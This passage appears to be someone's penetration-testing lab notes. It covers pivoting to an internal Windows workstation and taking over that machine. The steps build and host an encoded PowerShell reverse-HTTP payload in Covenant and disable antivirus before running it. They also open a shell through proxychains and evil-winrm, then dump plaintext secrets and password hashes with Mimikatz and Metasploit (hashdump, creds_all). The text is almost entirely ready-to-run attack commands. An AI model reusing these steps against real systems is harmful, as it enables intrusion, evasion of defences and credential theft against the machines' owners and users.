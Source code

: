 > To visualize: go to msfconsole > netstat -ano
there is a service 0.0.0.0:1234 LISTEN powershell.exe
that service will capture the traffic and push off over to our kali machine

```bash
Launchers > powershell > reverse http > Net40 > Generate
Host > /rev.ps1 > click host > copy the encoded payload
```

#### POC
```
- Go to workstation-02, that we do not have directly access.
- disable AV 
- paste the payload, we should get a session in Covenant
```

> If u try to generate again without port forward this will not work

```
Launchers > Generate HTTP Listener > Host > rev.ps1 - host > copy encoded payload 
try to execute in the workstation-02
```


### ProxyChains
```bash
proxychains evil-winrm -u <user> -p 'password' -i <ip of workstation-02>

# we get a shell
# without the portfwd in the meterpreter, this will not work 
```



## Workstation Dominance

### Dumping Hashes
You need a high integrity Covenant Shell
if you are not authority\system we need to run token::elevate 

**Mimikatz in Covenant Shell**:
```bash
Mimikatz token::elevate lsadump::secrets
```

> Here we are looking for plain text credentials


```bash
Mimikatz token::elevate lsadump::sam
```

> Here we want hashes
Covenant store the hashes we found in Data - Credentials


**Metasploit**:
```bash
run post/windows/gather/win_privs
getsystem
getuid

# if u are authority\system:
hashdump > grab to crack later
load kiwi # to use mimikatz in meterpreter
help # to see available commands

creds_all
lsa_dump_sam
lsa_dump_secrets
```
